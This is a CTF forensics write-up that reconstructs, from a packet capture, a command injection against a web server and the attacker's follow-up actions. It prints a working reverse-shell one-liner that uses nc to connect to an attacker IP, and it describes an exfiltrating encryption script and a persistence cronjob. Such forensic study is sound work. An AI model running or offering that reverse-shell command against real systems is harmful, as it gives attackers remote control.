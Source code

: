 ```yaml
---
layout: post
title: "Linux Forensic : Compromised (CyberSecurity Challenge - iTREXC 2023)"
date: 2023-10-22
categories: ["CTF", "Linux Forensic"]
---
```

**Note: This is my write-up for one of the forensic challenges in Cyber Security Challenge competition organized by iTREXC (4th International Innovation, Technology & Research Exhibition and Conference). This "Compromised" challenge is in Linux Forensic category. The difficulty of this "Compromised" challenge is Medium.**

For this "Compromised" challenge, we were given a `.pcap` (packet capture) file named `traffic.pcap`. We can open the file with Wireshark and the first thing we need to do is filter for HTTP traffic. We can see that the attacker make a GET request to the web server asking for `/images/date.php`.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-http-filter.png){:.align-center}

The attacker then compromised the web server by using a command injection to the web server through `/images/date.php` using POST method. The reverse shell script establish a connection to the attacker server : `159.223.43.45` port `4443`.

- `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 159.223.43.45 4443 >/tmp/f`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-http-post.png){:.align-center}

Because of that, we can follow the TCP stream of the reverse shell connection :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-follow-tcp-stream.png){:.align-center}

We can see that the compromised server established a connection to `159.223.43.45`, which is the attacker server. By following the TCP stream of the reverse shell connection, we can see what's the attacker does in the compromised server.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-tcp-stream.png){:.align-center}

The attacker navigate to `/home/nbs` and then download a file (`jahak.sh`) from the attacker's server to the compromised server. The `jahak.sh` file is a bash script that is used by the attacker to encrypt the document files in the compromised server using XOR encryption and transfer the encrypted files to the attacker's server.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-persistent-get.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-jahak-http.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-jahak.png){:.align-center}

The attacker encrypt the `flag.txt` file and rename it to `important.txt` :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-encrypted-file.png){:.align-center}

The attacker create a cronjob to automatically run the script.

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-persistent-path.png){:.align-center}

There is one question that ask hash of the webshell that being access by the attacker and this is the answer :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-export-object.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-export-object-file.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-ls.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/compromised-file-hash.png){:.align-center}
